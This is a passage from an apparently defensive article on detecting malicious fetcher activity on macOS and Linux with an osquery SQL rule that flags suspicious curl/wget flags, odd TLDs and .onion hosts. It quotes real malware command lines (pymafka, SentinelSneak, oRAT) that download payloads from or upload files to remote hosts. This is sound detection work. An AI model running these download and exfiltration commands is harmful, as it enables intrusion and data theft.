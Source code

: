 ```sql
    OR tld NOT IN (
      '',
      'app',
      'ca',
      'cloud',
      'com',
      'de',
      'dev',
      'edu',
      'fun',
      'gov',
      'io',
      'md',
      'mil',
      'net',
      'org',
      'se',
      'sh',
      'so',
      'uk'
    )
    OR pe.cmdline LIKE '%.onion%'
    OR pe.cmdline LIKE '%curl -k%'
    OR pe.cmdline LIKE '%curl -sL %'
    OR pe.cmdline LIKE '%curl%--connect-timeout%'
    OR pe.cmdline LIKE '%curl%--output /dev/null%'
    OR pe.cmdline LIKE '%curl%--O /dev/null%'
    OR pe.cmdline LIKE '%curl%--insecure%'
    OR pe.cmdline LIKE '%curl%-o-%'
    OR pe.cmdline LIKE '%wget %--user-agent%'
    OR pe.cmdline LIKE '%wget %--no-check-certificate%'
    OR pe.cmdline LIKE '%wget -nc%'
    OR pe.cmdline LIKE '%wget -t%'
    OR pe.euid < 500
  )
```

The full query can be found here: [sketchy-fetcher-events.sql](https://github.com/chainguard-dev/osquery-defense-kit/blob/main/detection/execution/sketchy-fetcher-events.sql).

Here are some examples of how the macOS malware from 2022 is invoking fetchers in a way that matches the above query:

* Gimmick: `curl -o %s http://cgi1.apnic.net/cgi-bin/my-ip.php --connect-timeout 10 -m 20`
* pymafka: `curl -A O -o- -L http://39.107.154[.]72/env`
* SentinelSneak: `curl -k -F "file=@" <zip> https://54.254.189[.]27/api/v1/file/upload`
* oRAT: `curl -sL https://d.github[.]wiki/mac/darwinx64 -O`

It's worth noting that this query includes `processes.cgroup_path`, which can be useful to filter out containerized applications on Linux, as they will often be run from lower euids.

## Drop: Executables in temporary directories
